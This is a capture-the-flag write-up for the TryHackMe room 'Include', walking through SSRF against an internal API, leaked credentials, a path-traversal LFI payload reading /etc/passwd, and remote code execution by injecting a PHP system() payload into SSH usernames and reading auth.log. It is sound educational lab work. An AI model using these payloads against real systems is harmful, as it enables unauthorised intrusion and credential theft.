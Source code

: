 ```yaml
---
title: THM - Include
description: A writeup for the TryHackMe room called Include.
date: 2024-06-09 00:00:00 +0000
categories: [CTF]
tags: [ctf, web]
image: /assets/img/banners/include_icon.png
---
```


The TryHackMe room "Include" demonstrates exploiting a web application through Local File Inclusion (LFI) vulnerabilities. By performing thorough enumeration and leveraging SSRF and LFI techniques, sensitive information was extracted, leading to credential discovery and eventually achieving remote code execution via log poisoning.

The IP for my machine was `10.10.134.223`, first add it to hosts file.
```bash
echo "10.10.134.223 include.thm" | sudo tee -a /etc/hosts
```

## Enumeration
Starting with an `nmap` scan using default scripts (`-sC`), service detection (`-sV`), and scanning all ports (`-p-`). `-oA` means output all formats, this is just so I can refer back to it easily
```
nmap -sC -sV -oA include_scan -p- include.thm
```

We can see a number of open ports:
```
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     Postfix smtpd
110/tcp   open  pop3     Dovecot pop3d
143/tcp   open  imap     Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 Dovecot pop3d
4000/tcp  open  http     Node.js (Express middleware)
50000/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
```
SSH is very rarely the initial access point, and the mail ports (25, 110, 143, 993, 955) require more effort to query. Let's first check out the web servers

## HTTP servers on 50000 and 4000
The web app on port 50000 just gives us a "restricted portal" message, requiring a login. We have no credentials at the moment so this is not helpful.

Web app on port 4000 just shows a message saying "log in with guest/guest, so let's do it.
![Login](/assets/img/include-thm-4000-site.png)

After logging in, we see a home page
![Home](/assets/img/include-thm-4000-home.png)

Let's try viewing our profile
![Profile](/assets/img/include-thm-4000-profile.png)

### SSRF
There is some funny looking information in the details section, almost as if we are seeing the raw key / value pairs. Let's try using the activity recommendation functionality to overwrite some of these variables e.g. setting `isAdmin` to `true`
![IsAdmin](/assets/img/include-thm-4000-isadmin-true.png)

After submitting this, the value updates in our details section, and we can see an API item in the navigation bar, let's navigate to this.

We can see the following:
![API](/assets/img/include-thm-4000-api-dashboard.png)

### API - Initial Credentials
It looks like we can get some credentials for the `SysMon` application on port 50000. Let's hit the `getAllAdmins101099991` endpoint on the API. The API is hosted locally, meaning we can only hit it from within the application. Notice that on the navigation bar, we have a "update banner image" functionality, where we can specify a URL. 
![Banner](/assets/img/include-thm-4000-update-banner.png)

Let's specify the endpoint's URL (`http://127.0.0.1:5000/getAllAdmins101099991`)

This is what we get back:
```
data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=
```

Note that it is base64 encoded, we can decode it:
```zsh
echo "eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0=" | base64 -d

{
    "ReviewAppUsername":"admin",
    "ReviewAppPassword":"admin@!!!",
    "SysMonAppUsername":"administrator",
    "SysMonAppPassword":"S$9$qk6d#**LQU"
}
```

### SysMon application
We got `SysMon` application credentials, so let's log into the application.
On the home page we can get the first flag
![50000Home](/assets/img/include-thm-50000-home.png)

After reviewing the source code of the website, we can notice that the `src` attribute of the `img` element is `src="profile.php?img=profile.png"`. Let's navigate to this URL and capture the request using the burp suite proxy. Send the request to repeater and let's try some directory traversal.

### LFI
Trying common payloads such as `../../../../etc/passwd` did not yield any results, let's use intruder to use an LFI payload wordlist such as [this](https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt) one 

Eventually, we can find a payload which will give us `/etc/passwd`:
```
http://include.thm:50000/profile.php?img=......///......///......///......///......///etc/passwd
[SNIP]
joshua:x:1002:1002:,,,:/home/joshua:/bin/bash
charles:x:1003:1003:,,,:/home/charles:/bin/bash
```
Revealing two users, joshua and charles.

### Trying to steal `id_rsa`
I tried stealing `id_rsa` for both users, but did not get anywhere. Then I considered the mail ports which were open, perhaps we can perform some log file poisoning to get RCE via our LFI vulnerability. Let's check for some common log files using the same LFI format from before (`......///......///......///......///......///`).

### Log Poisoning
I couldn't manage to get the apache `access.log` for some reason, but I could get /var/log/auth.log, which shows SSH authentication attempts.

Let's try and embed our PHP payload, which will list the current directory, into the SSH username.
```zsh
ssh '<?php system("ls"); ?>'@include.thm
```

If this fails, use hydra:
```zsh
hydra -u include.thm -p 'test' ssh -l '<?php system("ls"); ?>' include.thm
```

Now, when we read the contents of `auth.log` using our LFI:
```zsh
505eb0fb8a9f32853b4d955e1f9123ea.txt
api.php
auth.php
dashboard.php
index.php
[SNIP]
```

And with that, we get the file name, then we can modify our payload to cat the file:
```zsh
ssh '<?php system("cat 505eb0fb8a9f32853b4d955e1f9123ea.txt"); ?>'@include.thm
```

And we get the final flag.